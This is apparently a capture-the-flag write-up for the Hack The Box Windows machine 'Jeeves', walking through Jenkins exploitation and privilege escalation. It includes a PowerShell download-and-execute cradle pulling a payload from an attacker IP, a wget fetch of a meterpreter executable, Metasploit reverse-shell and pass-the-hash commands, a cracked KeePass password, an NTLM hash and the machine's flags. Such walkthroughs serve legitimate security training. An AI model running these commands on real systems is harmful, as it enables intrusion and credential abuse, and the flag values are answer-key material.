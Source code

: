 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
decription: Tools & Techniques used: pass the hash, msfvenom and john 
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
1. Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. We use Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

3. /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

4. To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

4. Start apache and place meterpreter.exe file for download 
5. Set up multi/handler
6. Run the shell on jenkins 
 

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
![](https://lh3.googleusercontent.com/9OJrTvzMPP3i6evtNryFb5qTsbZ6hYuMsMxVBMCexwdiFRNtLMd5FDONHlZp29jVycy-DZm5HfJp8sOJMucFUtKf4CyUFQ5eFgS7vfP_IrTF8vFrMomsv2y3RkN3O1LvhsqlwZ9-EoCTWAHNOKHamfJXGx0REoXq4ZAvfawWAfFltjR7pClbmr9thvwl861bHfCizrQfyctVoHuVthL4M9C56d353wTSv_ZT0C3M0CKiQ3PVva9lwEIUQkSXsDLBP_MoVNKnl2j5tfgkJ7RLwu7awrimMRsmUmZZIKhJQYxG1nLgPaSOO8jnGS4cPCP8ythKmrJPbamj_aukj5Js7dX7uplGdBLoIZ7eqvp9ynhUpypwTMUz1qV0blONEDMI0Z9DAv21mupuwy9lgEhldxUGSbkWWCeNCD9wdXgARa68Fj_Z34ymA5deD938PrLFwZNW-dK9atiHSty3PuJZ137cSjJJeCE12eKr9T5-vMPuPCoqtsPbQPBFnRr0rPcKsXVPVkWmRcG1uS4ut7fdcTOeKWcGRpY6qoX-RGaGcjosh0iOmI1gWGplcIZ13ets4HTdUOBTqYbYtf4VwNSzeHakxkzYq-QvogDZoGfQ7pIWez5zNa6eWHy9Qyrkel_So7jCZPTCupseRaP9_fjg2EBzk-7i-fsNSb_-741OtvOmM0MErJ3yijA=w702-h41-no)

![](https://lh3.googleusercontent.com/V2iiPSYdkJN0xPncus61RGEf31aNjntGxobvD15RWQ3fUoJzXke3K1Tue5ZI1Bj2bTo6v2fcASLwknkVEGR7po5ilL5n2hes31D_H6W8AOCr3dW_R3DbkfV0CccSpGIag-f7nfhVzWw74n_CwbpL4jgGPh7apMcnEqnfrGytrq35ancCHvjt4eVcPTTqqfkxNcfn0uWbUTL3TFGH7BMxf96l8SypVKWsSizSgGu6SzkDy8qwHPeVc8PcvxZaQMYBgfgJR12zwEjzEEeOPKBVbn7QHbtk2ev43cKlOOa8sG9u373O7f4_oKZ06XM7OktzPVmt0gFkxm46MLnvZdtbrqs_iCgW0FIsp5SiITAtU3kkEa4dm2RkB7ZbZuc4apRbVFN9aIYUrxAg9R3T5dAV_fomwvfr0xMAYpTfShNPUCXfu_Q6FAf7q4nyy2saITO2oFe7NTt7RYAkXqc1nuIONF5v-iGDG9l925kQRN_ltKVmeS30Uesla1b2SyiEGFkisnK523pzz6P0BH2nsegS3Ajgj6miEXUZLkViGgFWsU1snZqOe7VDZiZjN2gN8dDD3YWgWmOn420f3ATQULPWRakbezNnOPDpiEC7pagobe2gpcg1fr8_BuH-9Y9NOMZJSMQCecRic3bBYdtF6gJNfJJdBmLXuW3A1jQs7JhxwA30pr6EAVQubFg=w1345-h92-no)

3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1 to load the keepass backup file
5. Install Keepass2 : apt-get install keepass2
![](https://lh3.googleusercontent.com/Islqk6gH29nUfCHj6hmq2q71eDb4v8npwOjXZH-YWU4PXsKopusOcWfZpf2bVwFKsoSaoNeWRc82p7xuMjyZI3MmXMqLDb2f2B0wGH19CIQm5V_rsxOajEFUN2On2LOzpFQA3PwwsYW02m5v3eeLUNbYVZYZAm9NJlfqjnJRKC1uHWapMeWIjhhlV2pFT_Aqpq2_E_t6SXiwiBP3IF37eCHgndzIrHCy0fZ6rvRxxr47NRBjkj5UvwhHuyI6oDH_PJvpjOOuyLpuJ4BkG33cdIZZWujGHfweBdZqNVkdID3pLb0wZbAuwcPq_yQ1wluC3QbJ9acLlI_9FZV91d-n6xGZOlAZiatAf6iMxtC4OtjwcRSaEdYYg1fdm_k6o16WkAktDww9rRjmkvYz6tBAtZsca4TG3RHimXsxagR-lQNMMPRMZLAPP83Z6U-TjCEWhlatFs2tMtTSqMxkdlXhmFTx7E1N3kCVOPE2I89I3vNLVnaKtw2KjzTI7R0zP-INNBzP-cVAOOjKip05lrlI8GS_iFkR5b6SV5hekOTC9fqmrb5ZTHq4WsKwoPB48kvBsJVqXuyQi0jjMdha9zMuFV5QxQK4-v4P0xXh3pywPSf61DRGjOZPKkxjm0vEFilKOftQ1jGHKtsSqtffwNwwokLPI87u3UdQRonyC-dpaoSoW_jRvuAqQ5I=w880-h380-no)
![](https://lh3.googleusercontent.com/yESheUKzZintmFdhx5grIB2zb4xqmTSHK2WESoOWO4f_BREzErS47xF7urY02sxJ6y6IQRF3hXu6cNg0JjTM1iI6-TWS8cj9wO_qijOF_BcZVsEysvmuv321r1mhSfAXCYCQingIrtmwmTkcbmhl_QSmFIapTtKkO6A7Fx6eTcBOWlJGJ4zA2Jr7SfXMri3Gm5A0GbSx7HnRLmzR9LLwJ-tLp5vIHg_pBLoft8bH0c1NMFqiPlebp-KWeK7JSEDT_i2HCk7nDT2Naw9Zwpl3_PyYIS2BNfvSclSNZNq4_IV4kFBir2e6_MHnlSFH9F-v42hxhXnNXAzFHOYIm2DPmfOZ-_aQ05bStVMjDkT8ZmcyJ5lYyFXeLGthuMTcedri41MKxYrquY8pPzNS25Nv-dXjOFx10wjg3j1kXvO5vz63xxWKyiKozyWOTaCLidmHMNSRO0Rc4iCzbNvKfWNErZc4pr5pNlA1cCCXNtkik8cpfNBeLfmjoSW0l_L6HZ71NBcdp65OphiFlHj8l8SKyX966PNokooYu4ND59OqZGUdIl_jb-7GAHe0Oj-2_ZEi1EYf00fgikl_SYeVO6UaQbsiw_c_yFhB4rgIjUznoUuNxMZ7o2ad4h9FKHZyWGOxunKXVfVNgmv5-wBOk3zUh3Mpy9hHk9E2zzZfouiqjJNbKS-Tj-cLg08=w665-h271-no)

6. We obtain the admin NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf "windows smb" we connect using a pass the hash techique:   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
![](https://lh3.googleusercontent.com/eBGePb4dnYzjoWMM-uXeEVgU0B46DEP9OgC_jyx8zfjsLP751XG5pEewQIpctBbWS5_J8PwDD5jVA-KrKoV7QgQxgWd0W6m-71PKfePq7xgLdVMytDA8OiAL-_koytlRo-5RaMwu8iZc3dIsHmq0hYVxvDMaxzyeH_DjcDl_hAJqQ1sDZLzaVX7tAth7l8yWfvlcvNoOPQ2ydYo5QKMTd4HbsnwacR5PzQZ12NIPXsRRJWwgkpHaZvTYLU2A799DJXPJLQZjBoe1K9WY8bGyn8Ecd3QfBXFVuLVHPdpS74V7s7H_01iEgGVk6d39JKRcoHZxIyKsH5TXzcWFX_CSCMyxRZTl2hUw41VvyXQ3sd-XavvAn4XPNEcioBey3fJyzLk89FED6qEMUnriqdnmQ-DXtDNjO6lfJwG75pDVecQrck1ou6IACPABkJTqvbk6-_uWNcASpUYnNGhKUb0Hk2E95Jwl7BH_lSKNGGI9arxIXDLe-jHREUdpRCLfwLx7yV5bPQfCtY4zPI3ENM_AUGGr_tl5QMXmKNo3dVlBI8Cy-BuuDsx3MOmV5QvBLF9PXfj9EXHA1nle7ahUKbgQTxByBQZ-dcUCdBCPJBaLkzRbELxKX8nQGGXcxjA3--NYeMvx8DJB5dGFGO4-sLeou4CMl1UA6jxc7Zumi272S3fDpfmbbWHcU1M=w800-h135-no)
![](https://lh3.googleusercontent.com/jkBEIkugszoadzManrJjWgPSIbhMSZ8GCHx1CgbEUGvemic6IjOqB0oLqNJ_UZi9o6S2uEOpWKLS8HZqiNRkh01l3dPXAslRa4bbVsZcZQpFlz_WKW8_WcnH2iW9pOAhyEmUzWb-AxmsCldGiQIJT4t7reDBZeJomaNh146EKAgSjFTZvE8_oMV16MmhKHvPRhUQyAGzFQwvN2gqvu1SWiwVfZuXy3JembymELFzWpITfviVRZHOFQM6qLTZ2enZWELKBixCIkXoDxXOs5qNXaUJuNUBCRLZMUp52D3xncwImlnXN_oSHV5tTFS4ymRinMLIKiavRhAbbWkBkUVHShKOjcVfxpAihdt0Lb1oTcGy58xqfggYpruewA89FUp9SK8K-cHRG-y-SfM0HsouT5c9zu-CW0v8gx5zCR3r0Wqhq77A9C_PV4xkpgeTQdfTx5rV2CUROlN9TSaYxGedNUtZWSznAWcRbBEFyDzYQyTMrgUuJ1PCYN5IUDwKSywX5HYdwcMvdShwlNn3XHLM7wOLB2r9lSc0YeKiVkm_m8MhLxs0DnoI8vyXYCJBoKfSs-dXlirhkPP65i9XxBh9_PZj1BL1pOA7Qoo2AG9VAyQiZ1NZuU_fGnhq8HDA2jeVLB2GG-AdecuEMF9wM0t-AwQ0PaoySeJ4SsnfAuMqJZFnW3JIBHbv9EI=w1027-h250-no)

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt
![](https://lh3.googleusercontent.com/xpd9SOEyI-JiReW2JbioAi5AHMCFGy0V0tHvKOvKTVGHz_cFIYogPb7A97ebQStpAVXRvvO8wSzkWQ8-RVjdsPBPuXU3WXIu-1F2CCcJB6NJQjm7i1FFZoM6yRXo4OwLSdLemtzVfa6FkZ01TK_YqR8Ek88JQDalshpNtugrdYquLhrOaDaK2knsxfvJCNVmFzvBM36fNmerXk6v1rLlGuZ_XHYU13qbQUlJrBB03UCCp3KSxXY_5njK80QIFHOAvrUlEOsg2GgHXiRY1PJys_OQ9QOkIDmOTbSGPm10tImD1CAoulflJDb7FYywwHTgU6QYHCgvgkmZ7P8Z_4O0YKmdko7PG-QPWMC2Z1hEsK-bcJzzLR77tsxXslJjzzmxDcbYAOAoGqov0cN-GeOln22HWPmRN0DujJennCg6ARTRuiWK1v6CHOAq2gChBiH6xYqcU9Lw_HigXJV0dc70_E9q3Cj8MpEjevgZdq2DXk0T9892WvKy562S_aOQc4OexG7_kiB4M-4NqIGwGS2YK-tkxFeXI5lJHOfPlSAkdbJl27L6tFsfFyxxFIXcYgi2n0Z72pKqVd6Isr3ci3MnDlFFmkdyUnEm3RPD_uH7mMaxpT8ZPLTFBU41wkIuvixCa0Cr6fSvTnMfmnOhxvK4v6H5mgpNn0uS5FuD1b5LwhMz_7vaf1S5z6o=w567-h457-no)

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

2. Set up an nc listener to recieve the shell
3. Set up a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)

![](https://lh3.googleusercontent.com/SQMm5Heeyenkw81qqmiX454UcyGRe9p_VcJfniTFz0RZCHnL-QvTifqdbCl6dC72qSFh0oRG0h9V3vXkbpoD1Koa1HHTdn0qSBpaNNdgkEUNVp6jsOXPcfmCdD1yOLZ_iTcU2GxL-TadvjMiCjqvTjEcbn3Q7U-4SBOLAFKLbbXfFB9zEGhuGbNPgxqIqU3JOn_2sWHKNaGpJ3bKZw-jM6_SxRtEkuWhXWi3Rb7AAv9t5ES94Qs3T02yGCbuWT93dx82vDNPFLAnSfrduEuaonH8evQRczYeGg2Swk4VdE1Ceg3AUq35nH5a4eBgOwGWIxYknK_EiGo3oWqnUxCZSp2R8dNwtrfy-qE9U8PkJyYpwGVI8F6o4sZNFqOm1oUKYBr0Vn7bM2pQ_qCIQ7_CLI-Nr3RhqG9LQsJUiZ7u3gfpmIrW0oLFBPDfWF6t71Y9wVS5mpNSt6qvwHLv91affyrzYh2UI-pMK1FIXsLPelY8RmHlr7sYD28i6-i-xT5FJDTe6mdsm2rOHzoN_6TTXjBKh88hFb9aloCEeiwaDEGNQvrMiFR9jU_RZkqh_ZkXyshCIorKF0SDR0nOP3ZyCn41NpEyAe4taz17ArwaOLa80lNNLj5D-_u2HoZ3O-kPuKcS_ukcQtF313X0dcHJ7Zjs-CXJ1-Bpxi1IPVPzwzLGBjW0VyRlKKo=w1134-h331-no)


# Privilege Escalation Method 2

1. Use Windows Exploit Suggesters
2. We use the Vuln MS16-075 and we upload RottenPotato.exe to the target machine
3. then we load meterpretert incognito: load incognito
4. we execute the rottenpotato.exe file
5. then we type:
```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.
![](https://lh3.googleusercontent.com/zBWypHEBhLc6rJr4e0nfdaRSeTA51f4sOLArH4Jz_UlHQR7wxJ90Lsz4ohA_CoQv0AIDnwycooSnaCz9CqBnRHbzA80EkXYQa5cDtEIaCr06jkCFDl9P0Nz8n94mriplK7pPnNix-Pqbl1XHr5V4lnkVIHBch-K7NoazKkcKnxk9lsIwJcVNc_6w9JAy7muxtJHZnk0e29zCjKQnzJKtSb3Fmq-dq1RoeHWBiT4yv7bbehtyvzSUHhDCrEC040zNh5QNeUMNyUikSoylSkyk5b1sOks-qb5JuwdNAQPqhyPfjNcuPB9vs4ARnBOHwZtPZ6ML9fkYCdkhTYx__nEj1hxXPwXX8lSQMU6DyfVzsL3Yig6vlHFtvoYxgyUUlUx7cknjgoLm7ZYTJ6KqhiWmSFhb7cAjZpLC07V9_h90PReJ7KgFP0CQ2cXUOZpjzzrf5-nqDhbZXh9QAFJ7qbjRqeQ6c-E9aMn6dkdV6ONRqMrbw9P3HI6tGonaXaRa6tl4mYfB2aKQHf5t_uQ9oYzIdPGP0vz26cLW4wS2cm-wzGzn1nN5228YVD4Ju3n6q6xCGolE9LMzyPc5H_RACVnResBfUgvp8O-jt9pC3QrSy16t1kb2h0d8aNjbgonKh2J7wKKz4S7I8qx7BnkEyfH859uIb3V_1Ef8GlyEytzBJMf-q7x9ZeZOXxA=w656-h308-no)

# Flags
```ruby
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |
```



